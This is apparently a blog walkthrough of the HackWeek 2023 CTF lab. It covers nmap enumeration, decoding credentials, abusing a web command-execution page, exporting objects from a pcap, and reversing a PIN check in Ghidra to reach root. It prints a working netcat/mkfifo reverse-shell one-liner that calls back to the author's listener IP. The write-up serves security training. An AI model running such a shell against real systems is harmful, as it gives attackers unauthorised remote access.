# HackWeek 2023 - CTF


This post is focused on the walkthrough of HackWeek 2023 CTF by FAST-KHI.

<!--more-->

## Enumeration

Starting off with the initial nmap scan.

```
bash
┌──(kali💥kali)-[~/Desktop/tryhackme/hackweek23]
└─$ nmap -A -vv 10.10.58.161 -oN nmapN

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 1f2241ada68cbcd78a633f50bd963571 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDYSzzObiEyY3dbw3mzROyvdlbFShgmyG4hrdgmhhBfzysf92hsRAfoQCiGb31/hjD9HEHZArgiT46H5qUHa6zEEWsoRznouTtgeMw+Jz0TsBUQU5t0nm9xwQRAWcX4fDpU27hSn3JNHAmHF0v5njGn65we6cncfDTJK3rRJiJ35zliR2ogius+F3Cqc4I44mFJzdavT1LYJ9JT8fKac7XKlUVPlje7OzS2eS2YknDLNq18HtGAqQvgkZn12BcANOD+hqlJw+i172OcT5XZoxDKqPnm+9lQXzRrUdMJMArb3EZGPg+GyVyL26L3VW37nNQzPaTFcZ5JOf3gEXl+igf8x2GvKsO4oPj7lQ6OeLnn307fSnDbRJSZ84khSoKDcGqXrnYNObZqU+RZKNUg4mTirM8iuoPRNCCqc4NTS0GwpICaBb8W6uouS5gZPboAP8qkyBHl8fXZMt2ibetePDKMIYnoU3d0Ehz/zbCq2pB7Prn7ZASulnH9iqH4/6/Pz4k=
|   256 b9bbc4e05bc0110faf308e1920363866 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG8pbjCFQncSLJDkddPU28VRxryr19fQ4hR+WJJJjDGwqAav8uFYvW2rpRec8PSZJsmbgLeTcKqt7evakUjOwMU=
|   256 b31838a4ef7ccd8cfc252ad8680b75e3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPvOwse5rkVQbQT9FtSOcp4jImJ0kMvaOPrDiG2vpz4o
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackWeek '23
| http-robots.txt: 1 disallowed entry 
|_/MWzF2MqBWW
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Starting with port 80.



Checking the source of the page, we see the following text.



Also, the nmap scan revealed a disallowed entry in `robots.txt` file.





Visiting the endpoint, we get username and password in encoded form.



Decoding it with `Cyber Chef` from `base32` we get clear text credentials.





We got the answer to the first question which is `Blackmagic`.

## Foothold

Logging in, we get the following page.



As the description says, we can run commands on this page.

Running `id` command we see the output reflected.



Simply copy a reverse shell from [revshells](https://www.revshells.com/) and start a listener.

On my Kali machine,


And then on the website enter the following.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.18.2.202 4444 >/tmp/f
```


And we get the connection back on our machine.



On the current folder there's an interesting file `sharkk.pcapng`.



Simply start a python server on the machine to transfer this file to our local machine to further analyze it.

```
bash
www-data@vagrant:/var/www/html$ python3 -m http.server 8081 &
```

Now `wget` the file on our machine.

```
┌──(kali💥kali)-[~/Desktop/tryhackme/hackweek23]
└─$ wget http://10.10.58.161:8081/sharkk.pcapng
```

## pcap Analysis

Running the `file` command it shows it's a packet capture file.



Upon analyzing the capture file in `wireshark`, we can go to File > Export Objects > HTTP and save the files.



We have two files one is the `html` code while the other is a binary name `simple_math`.



## Reversing the binary

Upon running the binary, we have to enter a 4-digit PIN in order to get the `root` password.



The link provided by the binary was a great help to the challenge but I won't be discussing it here. :)

`Hint: ` https://youtu.be/DLzxrzFCyOs

Checking the `strings` command. We see some interesting strings.



The base64 encoded string is the same link we saw above.

```bash
┌──(kali💥kali)-[~/Desktop/blog/chaos]
└─$ echo eW91dHUuYmUvREx6eHJ6RkN5T3M= | base64 -d
youtu.be/DLzxrzFCyOs
```

We also see a string `password is 1337`.

On entering the password `1337`, we still didn't get the correct password.



Let's fire up `ghidra` to analyze it further then.

While analyzing the main function, we have a variable whose value is `1337`.



On further analysis, another variable `local_8c` calls the `pin()` function and with whatever value we input.



Checking the pin function, it adds `100` to our input value.



Further below on the main function, in the `else if` part, there's a comparison `local_98 == local_8c + 0xba`. 

To break it down.

- local_98 = 1337
- local_8c = (our input) + 100
- 0xba = 186

So to solve the challenge, we need to enter `1051` which is `1337 - (100 + 186)`.

Entering `1051` as PIN, we get the root password.



## Root flag

With this password, we can login as `root` through `ssh` on the machine and get the root flag.



**Thanks for reading!**


